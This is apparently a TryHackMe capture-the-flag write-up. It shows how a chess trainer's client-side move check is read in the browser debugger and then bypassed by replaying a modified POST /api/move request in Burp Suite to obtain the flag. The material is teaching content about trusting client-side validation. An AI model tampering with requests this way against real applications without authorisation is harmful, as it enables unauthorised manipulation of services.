





 

# Fools Mate — TryHackMe Writeup

## Challenge Overview

**Room:** Fools Mate
**Category:** Web Exploitation / Client-Side Bypass
**Target application:** *EndgameTrainer* — a web-based chess puzzle trainer

The challenge presents a "Mate-in-one" chess puzzle (White to move). The objective is to deliver checkmate — but the application actively prevents the correct move from being played on the client side.

## Step 1 — Attempting the Solution

The board shows a straightforward mate-in-one: the White rook on **a1** can deliver checkmate by moving to **a8**.

Attempting to play this move in the browser UI triggers a fake system dialog:

> *"I'll shut down your PC if you play that."*



The move is blocked, and no request appears to be sent to the server.

## Step 2 — Analyzing the Client-Side Code

Using the browser's built-in Debugger (Sources tab), I inspected `app.js` and found the function responsible for this behavior:

```javascript
function preMoveCheck(from, to, promotion) {
  const probe = new Chess(game.fen());
  let result;
  try {
    result = probe.move({ from, to, promotion: promotion || undefined });
  } catch (e) {
    result = null;
  }
  if (result && probe.isCheckmate()) {
    showSystemNotice("I'll shut down your PC if you play that.");
    return false;
  }
  return true;
}
```

The application simulates every candidate move locally using `chess.js`. If the simulated move results in checkmate, `preMoveCheck()` returns `false` and the move is silently discarded — the intimidating dialog is purely cosmetic, meant to discourage further investigation.



**Key takeaway:** this validation happens entirely in the browser. The client decides whether a move is "allowed" before ever contacting the server — a classic case of trusting client-side logic for a security-relevant decision.

## Step 3 — Bypassing the Restriction with Burp Suite

Since the check only lives in the front-end, the fix is simple: skip the browser UI entirely and talk to the API directly.

With Burp Suite's proxy intercepting traffic, I identified the endpoint the app uses to submit moves:

```
POST /api/move HTTP/1.1
Host: 10.114.139.23
Content-Type: application/json
Cookie: sid=41f010fa8f073f2938e54de5723179c6

{
  "from": "a1",
  "to": "a2"
}
```



I sent this request to **Repeater** and modified the body to submit the actual winning move instead of a harmless one:

```json
{
  "from": "a1",
  "to": "a8"
}
```



## Step 4 — Server Response

The server accepted the move with no client-side interference:

```json
{
  "ok": true,
  "move": "a1a8",
  "fen": "R5k1/5ppp/8/8/8/8/5PPP/6K1 b - - 1 1",
  "status": "checkmate",
  "turn": "b",
  "winner": "white",
  "flag": "THM{...}"
}
```



`"status": "checkmate"` and `"winner": "white"` confirm the mate was accepted server-side, and the response includes the flag.

## Conclusion

This challenge demonstrates a fundamental web security principle: **never trust client-side validation for decisions that matter.** The application's JavaScript pre-checked moves and blocked the winning one before it ever reached the server — but since the actual game logic (and the flag) lived server-side, bypassing the front-end check with Burp Suite's Repeater was enough to submit the move directly via the API and win the game.

### Tools used
- Browser DevTools (Debugger) — to locate and read the client-side validation logic
- Burp Suite (Proxy + Repeater) — to intercept and replay the move request directly against the API
